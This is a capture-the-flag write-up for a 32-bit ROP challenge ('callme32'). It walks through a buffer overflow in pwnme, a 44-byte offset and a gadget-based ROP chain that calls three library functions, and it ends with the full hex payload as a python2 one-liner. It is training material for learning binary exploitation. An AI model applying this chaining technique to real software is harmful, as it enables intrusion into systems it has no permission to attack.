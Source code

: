 Rahn Stavar
# Useful challenge info
> ![[Pasted image 20231215182344.png]]
## Write-up:
![[Pasted image 20231217151601.png]]
As before, the `NX` bit is set and there are some interesting functions names.
Analysis in Ghidra shows `usefulFunction` calls the three external library functions mentioned in the challenge instructions. The instructions state that to win, the 3 external functions must be called with specific parameters in a specific order in order to decrypt the flag.
![[Pasted image 20231217152005.png]]
The function `pwnme` contains a buffer overflow vulnerability, which I can use to create a ROP chain on the stack to call each of the required functions (with their respective parameters) in the correct order.
```c
void pwnme(void)
{
  undefined local_2c [40];
  memset(local_2c,0,0x20);
  puts("Hope you read the instructions...\n");
  printf("> ");
  read(0,local_2c,0x200);
  puts("Thank you!");
  return;
}
```
Using `gdb-peda` I found the offset from the buffer to the return address of `pwnme` on the stack:
![[Pasted image 20231217152505.png]]
As in the previous challenge, the offset is 44 bytes.
Now, because I want to call 3 functions, each with arguments, I am going to need a way to properly set up the stack each time before the next function in the chain is called.
In the previous challenge, it was possible to reuse the `call system()` instruction, but in this case, reusing the `call callme_one` instruction would result in the wrong return address being set and execution returning to this point after `callme_one` is finished. This is a problem because I then need to call the other two `callme` functions. This means, in this case I can't use the existing `call` instructions and instead need to set up the stack manually.
In x86, when calling a function, the stack should look like:
```
address to jump to,
return address,
args
```
Because I need to call 3 functions, I need to do this 3 times. The problem, however, is that if I just set the return address to `callme_two`, its return becomes `arg1` and its first parameter becomes `arg2`, which is not correct. 
So, I will need some ROP gadget to clean up my stack by `pop`-ing the 3 parameters from the stack, before returning to the next function in the chain.
![[Pasted image 20231217163219.png]]
Using `ROPgadget`, I have found one gadget which pops 3 values from the stack and saves them in registers. I will use this gadget to clean my stack between each function call. It will remove the 3 parameters from the stack, and then `ret` to the next value on the stack, which will be my next function call.
For the addresses of each function I need to call, I will use the address of the "THUNK" functions for each of these, as the actual functions are external and loaded in at runtime. I found these addresses using Ghidra.
Putting all of this together, my exploit should look like:
```
44 bytes of junk

addr of callme_one # 0x080484f0
addr of ROP gadget # 0x080487f9
args:
	0xdeadbeef
	0xcafebabe
	0xd00df00d

addr of callme_two # 0x08048550
addr of ROP gadget
args

addr of callme_three # 0x080484e0
dummy addr # 0x00000000
args
```
I generate the payload like so:
```c
python2 -c 'print \
"\x00"*44 + \
"\xf0\x84\x04\x08" + \
"\xf9\x87\x04\x08" + \
"\xef\xbe\xad\xde" + \
"\xbe\xba\xfe\xca" + \
"\x0d\xf0\x0d\xd0" + \
"\x50\x85\x04\x08" + \
"\xf9\x87\x04\x08" + \
"\xef\xbe\xad\xde" + \
"\xbe\xba\xfe\xca" + \
"\x0d\xf0\x0d\xd0" + \
"\xe0\x84\x04\x08" + \
"\x00\x00\x00\x00" + \
"\xef\xbe\xad\xde" + \
"\xbe\xba\xfe\xca" + \
"\x0d\xf0\x0d\xd0" \
' > payload.txt
```
Executing `callme32` with this payload gives the following output:
![[Pasted image 20231217165300.png]]
As you can see, the ROP chain worked and the flag was successfully "decrypted" and printed, by chaining together 3 external functions with specific parameters.